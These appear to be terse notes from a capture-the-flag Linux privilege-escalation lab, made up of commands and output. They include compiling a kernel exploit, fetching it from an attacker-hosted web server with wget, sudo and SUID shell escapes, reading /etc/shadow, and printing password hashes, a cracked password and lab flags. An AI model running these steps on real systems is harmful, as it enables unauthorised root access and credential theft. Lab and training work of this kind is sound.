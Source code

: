ssh karen@10.10.171.207

hostname

wade7363

cat /proc/version

3.13.0-24-generic

cat /etc/issue

Ubuntu 14.04 LTS

python --version

Python 2.7.6

https://www.exploit-db.com/exploits/37292

CVE-2015-1328

gcc 37292.c -o ofc

sudo python3 -m http.server --bind 10.18.6.119 8080

cd tmp

wget http://10.18.6.119:8080/ofc

chmod +x ofc

ls -la

find / -type f -name '*flag2*.txt' 2>/dev/null

cat /home/matt/flag1.txt

THM-28392872729920

https://gtfobins.github.io/gtfobins/nano/#sudo

sudo nano

^R^X

reset; sh 1>&0 2>&0

id

find / -type f -name '*flag2*.txt' 2>/dev/null

cat /home/ubuntu/flag2.txt

THM-402028394

sudo nmap -interactive

cat /etc/shadow

$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

cat /etc/passwd

gerryconway

find / -type f -perm -04000 -ls 2>/dev/null

LFILE=/etc/shadow

/usr/bin/base64 "$LFILE" | base64 --decode

$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/

Password1

find / -type f -name '*flag3*.txt' 2>/dev/null

LFILE=/home/ubuntu/flag3.txt

/usr/bin/base64 "$LFILE" | base64 --decode

THM-3847834
